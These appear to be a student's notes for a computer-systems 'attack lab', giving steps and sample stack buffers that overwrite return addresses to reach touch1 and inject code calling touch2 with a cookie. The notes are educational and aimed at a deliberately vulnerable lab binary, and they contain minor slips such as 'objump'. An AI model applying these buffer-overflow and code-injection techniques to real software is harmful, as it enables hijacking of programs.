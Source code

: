 Phase 0
=======

Determine address of touch1()

Determine size allocated for stack

Convert address using hex2raw

Insert address in buffer (pad rest with 00's)

Sample buffer:

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  55 19 40 00 00 00 00 00  /* address of touch1 */

Phase 1
=======

Similar to previous phase, but call a function with an argument

Will call touch2(cookie)

Make a .s file with movl cookie, $edi 

Generate .o file with gcc

	gcc -c file.s

Obtain hex for instruction

	objump -d file.o

Insert instruction 

Sample buffer:

  bf 9a d9 e2 68 c3 00 00  /* instruction: 
				movl cookie, edi
				retq */

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  38 81 67 55 00 00 00 00  /* address of movl cookie, edi */

  81 19 40 00 00 00 00 00  /* address of touch2 */
